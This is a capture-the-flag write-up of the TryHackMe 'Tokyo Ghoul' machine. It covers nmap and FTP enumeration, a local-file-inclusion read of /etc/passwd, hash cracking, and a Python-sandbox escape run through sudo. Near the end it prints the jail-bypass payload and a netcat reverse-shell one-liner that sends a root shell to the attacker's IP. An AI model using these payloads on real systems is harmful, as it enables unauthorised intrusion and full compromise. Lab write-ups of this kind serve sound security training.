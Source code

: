 ```yaml
---
layout: project
type: project
image: images/writeups/thm/tokyo-ghoul/logo.jpeg
title: Tokyo Ghoul - TryHackMe
permalink: writeups/tokyo-ghoul
# All dates must be YYYY-MM-DD format!
date: 2021-03-18
labels:
  - TryHackMe
  - boot2root
  - medium
  - LFI
  - Python Sandbox
  - Enumeration
summary: Help kaneki escape jason room in this Tokyo Ghoul inspired machine.
---
```


<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/header.png">
<script src="https://www.tryhackme.com/badge/192700"></script>

## Enumeration

Starting off with rustscan to quickly scan all ports

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/1.png">

Performing a full scan with nmap on those ports

```
┌──(root💀Toyin)-[~/infosec/thm/tokyo-ghoul]
└─# nmap -sS -T4 -A -p 21,22,80 -oN nmap 10.10.7.110
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-18 20:28 WAT
Nmap scan report for 10.10.7.110
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Jan 23 22:26 need_Help?
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.169.153
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fa:9e:38:d3:95:df:55:ea:14:c9:49:d8:0a:61:db:5e (RSA)
|   256 ad:b7:a7:5e:36:cb:32:a0:90:90:8e:0b:98:30:8a:97 (ECDSA)
|_  256 a2:a2:c8:14:96:c5:20:68:85:e5:41:d0:aa:53:8b:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome To Tokyo goul
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   196.06 ms 10.8.0.1
2   196.02 ms 10.10.7.110

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.64 seconds
```

I added the target IP to my /etc/hosts as ghoul.thm so i won't have to type the IP all the time

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/2.png">

### FTP

Starting my poking around on ftp port 21 since anonymous login is available and nmap showed an intersting file present

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/3.png">

Looking further into the files i find need_to_talk to be an executable. I ran it and got some useful information back. I used rabin2 to read the strings from the data section and found what was likely to be the passphrase

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/3-1.png">

After getting the “passphrase” I decided to try it to extract data from the image i got from the ftp. I ended up with dots and dashes, so morse code, and went to my trusty chef to cook up something

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/4.png">

After tweaking the recipe I got what was surely a hidden directory

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/5.png">

### HTTP

Looking at the source for http://ghoul.thm I see a hint about anonymous ftp login but I've already done that same hint in http://ghoul.thm/jasonroom.html
Going into the directory I found, I see clear instructions to scan it so it would be quite rude not to

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/6.png">

gobuster took it's time but returned something. i should have probably used ffuf instead

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/7.png">

## Exploitation

Going to page i find that the links have get parameters that could possibly be LFI exploitable

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/8.png">

Trying basic LFI payload of ../../../../../../etc/passwd returned a message of “no no no silly don't do that” so i used ffuf to test various payloads and got a hit

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/9.png">

I used curl to get the contents and luckily also got a password hash for the user kamishiro

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/10.png">

Cracking the hash using hashcat i got the password for kamishiro and then logged in via ssh

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/11.png">

## Privilege Escalation

Upon logging in I ran "sudo -l" to see what sudo privileges the user had. I found that the user could execute a certain script as root
Checking the script it showed that it uses the “exec()” function therefore it can execute user input. It does have some filters so i would have to use a payload that doesn't include any of those

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/12.png">

using the payload below i was able to bypass the “python sandbox/jail”

```
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cmd')
```
reference: [Escaping Python Jails](https://anee.me/escaping-python-jails-849c65cf306e)

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/13.png">

Using the payload below to get a reverse shell as root

```
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.169.153 4444 >/tmp/f')
```

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/14.png">

pwned
